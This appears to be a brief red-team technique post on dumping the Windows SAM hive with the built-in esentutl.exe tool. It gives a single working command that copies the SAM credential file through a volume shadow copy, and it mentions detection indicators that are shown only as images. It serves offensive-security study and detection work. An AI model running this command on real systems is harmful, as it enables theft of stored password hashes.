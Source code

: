 ```yaml
---
layout: post
title: "2024-06-18-dumping sam via esentutl.exe"
date: 2024-06-18
categories: credential-access-and-credential-dumping
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /dumping-sam-via-esentutl.exe/
---
```


# Dumping SAM via esentutl.exe

## Execution

It's possible to use esentutl.exe that comes with Windows and dump SAM/Security hives like so:

```
esentutl.exe /y /vss C:\Windows\System32\config\SAM /d c:\temp\sam
```

![](<../../.gitbook/assets/image (632).png>)

## Observation

The below are some potential IOCs for detecting this technique:

![](<../../.gitbook/assets/image (633).png>)

## References

{% embed url="https://superuser.com/questions/364290/how-to-dump-the-windows-sam-file-while-the-system-is-running" %}
@spotheplanet
